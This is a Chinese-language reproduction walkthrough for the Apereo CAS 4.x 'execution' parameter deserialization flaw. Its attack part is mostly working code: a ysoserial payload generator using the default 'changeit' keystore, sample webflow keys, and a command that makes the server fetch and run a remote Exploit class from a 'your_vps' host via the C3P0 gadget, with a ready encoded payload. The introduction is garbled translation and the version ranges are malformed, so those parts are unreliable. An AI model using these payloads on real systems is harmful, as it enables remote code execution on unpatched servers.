




# Apereo CAS 4.X execution 参数反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Apereo CAS/Apereo CAS 4.X execution 参数反序列化漏洞.html](http://book.iwonder.run/0day/Apereo CAS/Apereo CAS 4.X execution 参数反序列化漏洞.html)

## 一、漏洞简介

该攻击媒介特别适用于 CAS 的所有部署 v4.1.x 和 v4.2.x 地方中科院外的开箱默认配置用于管理对象序列化，数据加密和签名部署

## 二、漏洞影响

Apereo CAS 4.1.x - 4.16

Apereo CAS 4.1.7 - 4.2x

## 三、复现过程

在 cas-servlet.xml 中，可以知道对 execution 参数应该关注 FlowExecutorImpl

```
<bean name="loginFlowExecutor" class="org.springframework.webflow.executor.FlowExecutorImpl"
          c:definitionLocator-ref="loginFlowRegistry"
          c:executionFactory-ref="loginFlowExecutionFactory"
          c:executionRepository-ref="loginFlowExecutionRepository"/> 
```

在 org/springframework/webflow/executor/FlowExecutorImpl.class:96

```
public FlowExecutionResult resumeExecution(String flowExecutionKey, ExternalContext context) throws FlowException {
        FlowExecutionResult var6;
        try {
            ...

            try {
                FlowExecution flowExecution = this.executionRepository.getFlowExecution(key);
                ...
            }
            ...
        }
        ...
    } 
```

跟进 `getFlowExecution`，在 spring-webflow-client-repo-1.0.0.jar!/org/jasig/spring/webflow/plugin/ClientFlowExecutionRepository.class:51

```
public FlowExecution getFlowExecution(FlowExecutionKey key) throws FlowExecutionRepositoryException {
        ...
        byte[] encoded = ((ClientFlowExecutionKey)key).getData();

        try {
            ClientFlowExecutionRepository.SerializedFlowExecutionState state = (ClientFlowExecutionRepository.SerializedFlowExecutionState)this.transcoder.decode(encoded);
            ...
        }        
    } 
```

跟进 `decode` spring-webflow-client-repo-1.0.0.jar!/org/jasig/spring/webflow/plugin/EncryptedTranscoder.class:80

```
public Object decode(byte[] encoded) throws IOException {
        byte[] data;
        try {
            data = this.cipherBean.decrypt(encoded);
        } catch (Exception var11) {
            throw new IOException("Decryption error", var11);
        }

        ByteArrayInputStream inBuffer = new ByteArrayInputStream(data);
        ObjectInputStream in = null;

        Object var5;
        try {
            if (this.compression) {
                in = new ObjectInputStream(new GZIPInputStream(inBuffer));
            } else {
                in = new ObjectInputStream(inBuffer);
            }

            var5 = in.readObject();
        } catch (ClassNotFoundException var10) {
            throw new IOException("Deserialization error", var10);
        } finally {
            if (in != null) {
                in.close();
            }

        }

        return var5;
    } 
```

post 进入的 execution 参数值即`encoded`，在经过`decrypt`解密后，最终在`var5 = in.readObject()`触发反序列化漏洞。

### Apereo CAS 4.1.X ~ 4.1.6 漏洞复现

4.1.x 的加密过程直接利用了 EncryptedTranscoder 中的`encode`

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    ...
    public byte[] encode(Object o) throws IOException {
        if (o == null) {
            return new byte[0];
        } else {
            ByteArrayOutputStream outBuffer = new ByteArrayOutputStream();
            ObjectOutputStream out = null;

            try {
                if (this.compression) {
                    out = new ObjectOutputStream(new GZIPOutputStream(outBuffer));
                } else {
                    out = new ObjectOutputStream(outBuffer);
                }

                out.writeObject(o);
            } finally {
                if (out != null) {
                    out.close();
                }

            }

            try {
                return this.cipherBean.encrypt(outBuffer.toByteArray());
            } catch (Exception var7) {
                throw new IOException("Encryption error", var7);
            }
        }
    }

    ...
    protected KeyStore createAndPrepareKeyStore() {
        KeyStoreFactoryBean ksFactory = new KeyStoreFactoryBean();
        URL u = this.getClass().getResource("/etc/keystore.jceks");
        ksFactory.setResource(new URLResource(u));
        ksFactory.setType("JCEKS");
        ksFactory.setPassword("changeit");
        return ksFactory.newInstance();
    }
} 
```

同时要注意存在一个 base64 的过程



因此要生成 payload，即先用`encode`加密后再进行一次 base64 编码。其中`/etc/keystore.jceks`在 spring-webflow-client-repo-1.0.0.jar/etc/目录下

#### 生成 payload

```
import org.cryptacular.util.CodecUtil;
import org.jasig.spring.webflow.plugin.EncryptedTranscoder;

import ysoserial.payloads.ObjectPayload;

public class ApereoExploit {

    public static void main(String[] args) throws Exception{
        String poc[] = {"CommonsCollections2","bash-shell"};
        final Object payloadObject = ObjectPayload.Utils.makePayloadObject(poc[0], poc[1]);
        //AES 加密
        EncryptedTranscoder et = new EncryptedTranscoder();
        byte[] encode = et.encode(payloadObject);
        //base64 编码
        System.out.println(CodecUtil.b64(encode));
    }
} 
```

运行代码



接着



服务器监听：



完整过程动图


### Apereo CAS 4.1.7 ～ 4.2.X 漏洞复现

以 4.2.7 为例。

#### 利用

4.2.x 的`decrypt`函数在 cas-server-webapp-support-4.2.7.jar!/org/jasig/cas/web/flow/CasWebflowCipherBean.class:34

```
public byte[] decrypt(byte[] bytes) {
        return (byte[])this.webflowCipherExecutor.decode(bytes);
    } 
```

其中`decode`在 cas-server-core-util.jar!/jasig/cas/util/BinaryCipherExecutor.java:82

```
@Override
    public byte[] encode(final byte[] value) {
        try {
            final Key key = new SecretKeySpec(this.encryptionSecretKey.getBytes(),
                    this.secretKeyAlgorithm);
            final CipherService cipher = new AesCipherService();
            final byte[] result = cipher.encrypt(value, key.getEncoded()).getBytes();
            return sign(result);
        } catch (final Exception e) {
            logger.error(e.getMessage(), e);
            throw new RuntimeException(e);
        }
    }

    @Override
    public byte[] decode(final byte[] value) {
        try {
            final byte[] verifiedValue = verifySignature(value);
            final Key key = new SecretKeySpec(this.encryptionSecretKey.getBytes(UTF8_ENCODING),
                    this.secretKeyAlgorithm);
            final CipherService cipher = new AesCipherService();
            final byte[] result = cipher.decrypt(verifiedValue, key.getEncoded()).getBytes();
            return result;
        } catch (final Exception e) {
            logger.error(e.getMessage(), e);
            throw new RuntimeException(e);
        }
    } 
```

而上面`encode`其对应的调用加密流程在 cas-server-core-util.jar!/org/jasig/cas/util/WebflowCipherExecutor.java:14

```
@Component("webflowCipherExecutor")
public class WebflowCipherExecutor extends BinaryCipherExecutor {

    /**
     * Instantiates a new webflow cipher executor.
     *
     * @param secretKeyEncryption the secret key encryption
     * @param secretKeySigning    the secret key signing
     * @param secretKeyAlg        the secret key alg
     */
    @Autowired
    public WebflowCipherExecutor(@Value("${webflow.encryption.key:}")
                                 final String secretKeyEncryption,
                                 @Value("${webflow.signing.key:}")
                                 final String secretKeySigning,
                                 @Value("${webflow.secretkey.alg:AES}")
                                 final String secretKeyAlg){
        super(secretKeyEncryption, secretKeySigning);
        setSecretKeyAlgorithm(secretKeyAlg);
    }
} 
```

因此其加密过程与 4.1.X 稍微有些不同，需要重新写加密逻辑。

#### 复现

利用 cas-overlay-template-4.2 ，其中在 cas-overlay-template-4.2\cas-overlay-template-4.2\src\main\webapp\WEB-INF\spring-configuration\propertyFileConfigurer.xml 指定了 cas.properties 的位置，最终生成 war 包，放于 Tomcat webapps 目录下。

修改 cas.properties，使其支持 http，并修改 webflow 相关默认密钥


```
webflow.encryption.key=C4SBogp_badO82wC
webflow.signing.key=8_G6JMTdkxiJ5rN0tqFrEOQj200VoxGrRzAp7bvjMFSGdA2IOzdFRsGv3m3GMNVmoSJ0O4miIBrYCHx_FWP4oQ 
```

利用 apereocas42.jar 生成加密参数，由于依赖包中存在 c3p0


因此可以利用其做 gadget

```
java -jar apereocas42.jar C4SBogp_badO82wC  8_G6JMTdkxiJ5rN0tqFrEOQj200VoxGrRzAp7bvjMFSGdA2IOzdFRsGv3m3GMNVmoSJ0O4miIBrYCHx_FWP4oQ  C3P0 http://your_vps:60006/:Exploit

execution=7995ec15-cec8-4eed-9d31-d9a1f7a7138b_ZXlKaGJHY2lPaUpJVXpVeE1pSjkuTVM5aVdUaEtiSE4zVW1KYVZqUXJielZoZFV4V1FWZExUVGRPVUdsblZYVk9hbkZaTUVwdWNUbE1hekpMTVUxeGQyaHVhRkJwY3pacVluZ3ZWVTVNTDBKdVFsUnpkMUIxYW5kVlZUWjRVMDloUlN0SGVUVjZjbXRGYkU5Rk5tNXNUa3R5UVdNMVUwRXpkSFpYYWs4NVpuRjFWUzg0YVZWcmFVaDRUeXRIV1ZFMU5GVXZZV0pSVDJGSmQwaGxkSFZNWlc5VFRsRTNNbE5WSzBjMVFXazFiV2h2V2tWMFVtZEVaVE0zZVhSeldsbDVLMjQwUzJSM1YzSllhemxLV0dRclRuWk5lSE4xZURKM2NIazJRMHBXYkVOS01UVnZURlZEU2tKMU5rMVRaVll3ZVV4VmFHWlBkVzlUZFhCYVpYaFFiV1pwY1hSV1YzVnhMMUIxV0dSWFYxaFhRVGt6ZUZKSGVGcDNTSFZYTkUxRVpVRjFLM1pDU1hWWFQzZG1 我是马赛克 pT1ZKSVZHNXVUMlpCVFdWdGFGSmFTV0pyWjJWTGJsUnFXVXhVYTA5UUx6QnVLM2xTZVdoQ1NGaDBja3d3VFVab056UTFValJ2VFUwNGNpODRPRXhFVjFKR2VHdEtaSGxNWjFScVdVRnRkMHRIUW00dk5HOHZiR0p0WjBSeVVHdElUbWhIVm1ORVoxSkdlRzlQYm5vMmFXaHVkWEpPVEdaa1kzWXlVMHB3Vm1GSFEwTkZXR3cwZW1Jd1dVSkhjRTlCVUVwUldXZ3ZNRmxaTkVGb09FMXlNRlpGY2t4NFlXUnhTR2QzYmxwSVRVUjFNM2hMT1VOQ2NGRnRWWEo0T1RKRE1ETm1NbmhDTVdwdGRUSktkR3Q1WVc1WmJsZFdVMjlKUm1jMWVERlpXbGg1V1hWclRHZGpXa1Y1VVVOSk5sQlVjM2xXYlc1NlJHUlphbHBMZWpVemRXeHpUVEZtVjNkR1lrOVRRelYwWkROWE9XVkJTM2hPVm5CUE9VOVFRbEJzWVZJd2J5OXFkV1ZrYjNnMmRGZDVWRFEwUlZsVVlXZ3pPVXcwT0ZrclFXNDFlRGcxYUdwNVlXeHVNV3BYVEVSc2MzSnNVRU5MU0ZoV2NYb3JNMmM5UFEuUHlVb1FOdWNYS01Ra1lJZllZQ1FJaXUwQTROUkdzaExCOGMxMHczYzRWRDhHVmI1ZjRMbjZXQllmVUtKVU5FREpwZjl0ckd6N0pQTHJVLXlpMWRSRkE= 
```

在自己的 vps 上编译 Exploit.java，生成 Exploit.class

```
public class Exploit {
    public Exploit(){
        try {
            java.lang.Runtime.getRuntime().exec(
                new String[]{"cmd.exe","/C","calc.exe"}
       );
        } catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}

// javac Exploit.java 生成 Exploit.class
// python3 -m http.server 60006 
```

截取 cas 的登录包，替换 execution 参数


vps 上可以看到 c3p0 远程加载了 class


## 参考链接

> [https://app.yinxiang.com/fx/83617723-790c-4a9e-b884-f6831e2acf78](https://app.yinxiang.com/fx/83617723-790c-4a9e-b884-f6831e2acf78)
> 
> [https://xz.aliyun.com/t/7032#toc-1](https://xz.aliyun.com/t/7032#toc-1)

